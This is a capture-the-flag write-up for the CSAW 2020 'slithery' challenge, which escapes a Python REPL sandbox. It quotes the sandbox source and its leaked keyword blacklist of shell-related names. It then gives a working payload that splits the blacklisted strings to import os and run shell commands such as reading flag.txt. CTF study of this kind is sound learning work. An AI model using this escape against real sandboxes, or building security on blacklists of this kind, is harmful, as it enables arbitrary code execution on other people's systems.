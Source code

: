 ```yaml
---
title: "CSAW 2020 - slithery"
date: 2020-09-17T00:00:00Z
draft: false
---
```


`Setting up a new coding environment for my data science students. Some of them are l33t h4ck3rs that got RCE and crashed my machine a few times :(. Can you help test this before I use it for my class? Two sandboxes should be better than one...`

nc pwn.chal.csaw.io 5011

[sandbox.py](./original.py)

Looking at the file it seems we have a very simple REPL, with some code prepended to every line we write. There is also a blacklist of words, which we do not have access to.

First I started by simply trying to run the file, which obviously didn't work, since I don't have "blacklist", so I just replaced `blacklist.BLACKLIST` with `[]`
Now it did run, and we have a similar shell to the remote one, but without a blacklist. Lets fix that.

```$ echo "print(blacklist.BLACKLIST)" |nc pwn.chal.csaw.io 5011
['__builtins__', '__import__', 'eval', 'exec', 'import', 'from', 'os', 'sys', 'system', 'timeit', 'base64commands', 'subprocess', 'pty', 'platform', 'open', 'read', 'write', 'dir', 'type']
```
Huh, it just worked.

```py
blacklist = ['__builtins__', '__import__', 'eval', 'exec', 'import', 'from', 'os', 'sys', 'system', 'timeit', 'base64commands', 'subprocess', 'pty', 'platform', 'open', 'read', 'write', 'dir', 'type']
```
Replace the original `blacklist.BLACKLIST` with `blacklist` and we have an equal shell to theirs.

Now, I wonder if degarbling the `final_cmd` will help?

`uOaoBPLLRN -> sandbox_fd`

`int(((54 * 8) / 16) * (1/3) - 8) -> 1`
`uDwjTIgNRU -> one`

`ORppRjAVZL -> first_line_words_array`

`AAnBLJqtRv -> second_word`

`bAfGdqzzpg -> last_word`

The second word on this file is "base64" and the last word on the first line is "b64decode"
This next line grabs the b64decode sub module and puts its reference in "HrjYMvtxwA" I won't rename this because it might be useful for blacklist evasion.

`X19pbXBvcnRfXw==` decodes to `__import__` and `bnVtcHk=` decodes to... `numpy`?? Numpy pyjail escape?

Anyway, not renaming `RMbPOQHCzt` either, numpy might be useful.

Here is the final file:
```py
#!/usr/bin/env python3
from base64 import b64decode
# import blacklist  # you don't get to see this :p
blacklist = ['__builtins__', '__import__', 'eval', 'exec', 'import', 'from', 'os', 'sys', 'system', 'timeit', 'base64commands', 'subprocess', 'pty', 'platform', 'open', 'read', 'write', 'dir', 'type']

"""
Don't worry, if you break out of this one, we have another one underneath so that you won't
wreak any havoc!
"""

def main():
    print("EduPy 3.8.2")
    while True:
        try:
            command = input(">>> ")
            if any([x in command for x in blacklist]):
                raise Exception("not allowed!!")

            final_cmd = """
sandbox_fd = open("sandbox.py", "r")
one = 1
first_line_words_array = sandbox_fd.readlines()[one].strip().split(" ")
second_word = first_line_words_array[one]
last_word = first_line_words_array[-one]
sandbox_fd.close()
HrjYMvtxwA = getattr(__import__(second_word), last_word)
RMbPOQHCzt = __builtins__.__dict__[HrjYMvtxwA(b'X19pbXBvcnRfXw==').decode('utf-8')](HrjYMvtxwA(b'bnVtcHk=').decode('utf-8'))\n""" + command
            exec(final_cmd)

        except (KeyboardInterrupt, EOFError):
            return 0
        except Exception as e:
            print(f"Exception: {e}")

if __name__ == "__main__":
    exit(main())
```

Try the classic pyjail escape, but try to accomodate for the blacklisted strings.
`print(getattr(getattr(globals()['__buil'+'tins__'], '__im'+'port__')('o'+'s'), 'sy'+'stem')('ls .'))`
Uh... It worked.

`print(getattr(getattr(globals()['__buil'+'tins__'], '__im'+'port__')('o'+'s'), 'sy'+'stem')('cat flag.txt'))`
Done!
Seems like the reversing wasn't needed at all.
